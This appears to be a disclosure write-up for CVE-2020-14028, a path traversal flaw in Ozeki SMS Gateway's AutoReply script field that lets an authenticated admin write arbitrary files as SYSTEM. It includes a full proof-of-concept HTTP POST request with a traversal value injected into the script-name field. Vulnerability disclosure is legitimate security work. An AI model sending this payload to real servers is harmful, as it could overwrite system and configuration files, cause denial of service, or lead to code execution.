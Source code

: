# CVE-2020-14028: Ozeki SMS Gateway Arbitrary File Write/Overwrite in the "AutoReply" Module

The Ozeki SMS Gateway software, versions 4.17.6 and below, has a path traversal vulnerability in the "AutoReply script file" name field.
<br/>
This vulnerability allows an attacker to write or overwrite arbitrary files, with arbitrary content, usually with "NT Authority\System" level privileges, and can be used to:
- Overwrite Ozeki config files (Ex. Change admin password, Log/Addressbook location, etc.)
- Overwrite Ozeki DLL files resulting in:
	- Denial of Service by preventing Ozeki from starting and/or accessing advanced functionalities
	- Remote Code Execution if an attacker can bypass the "Bad Char" restrictions
- Overwrite important EXEs, DLLs, LOGs and/or configuration files used by the OS in "C:\Windows" and subdirectories (if Ozeki is also installed on "C:")

### Requirements:

This vulnerability requires:
- Access to an Ozeki Web Application administration interface with rights to create "AutoReply" Scripts

### Proof Of Concept:

By using a "..\" path traversal attack we can write or overwrite, files with arbitrary name and content in arbitrary locations.

<img src="Web%20View.png"/>

Request:
```
POST /userprops HTTP/1.1
Host: <IP>:9501
Content-Type: application/x-www-form-urlencoded
Content-Length: 791
Cookie: usrckenc=b3c***TRUNCATED***04c

user=12345678901&mode=configure&OZFORM_AUTOCONNECT=off&OZFORM_AUTOCONNECT=on&OZFORM_BUTTON=OK&OZFORM_REPLYSCRIPT=..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cmal.txt&OZFORM_REPLYSCRIPT_FILE=Arbitrary+file+write+as+System+is+...+bad+...&OZFORM_ZipRotatedFiles=off&OZFORM_ZipRotatedFiles=on&OZFORM_LOGDIRECTORY=C%3A%5CProgram+Files+%28x86%29%5COzeki%5COzekiNG+-+SMS+Gateway%5CLogs&OZFORM_LOGHISTORYCOUNT=8&OZFORM_LOGMAXFILESIZE=8000&OZFORM_LOGMESSAGES=off&OZFORM_LOGMESSAGES=on&OZFORM_LOGCOMMUNICATION=off&OZFORM_ADDRESSBOOKTYPE=File+Addressbook&OZFORM_RESPONSELIMIT=10&OZFORM_IDOVERRIDE=off&OZFORM_PHONENUMBER=12345678901&OZFORM_ACCOUNTING=off&OZFORM_PASSWORD=_ENC_UWVtr3bCVr8Rch3cEisbfQ%3D%3D&OZFORM_USERNAME=12345678901&OZFORM_UseSmsScheduling=off&OZFORM_TimeStart=00%3A00&OZFORM_TimeEnd=23%3A59
```

<img src="Result.png"/>
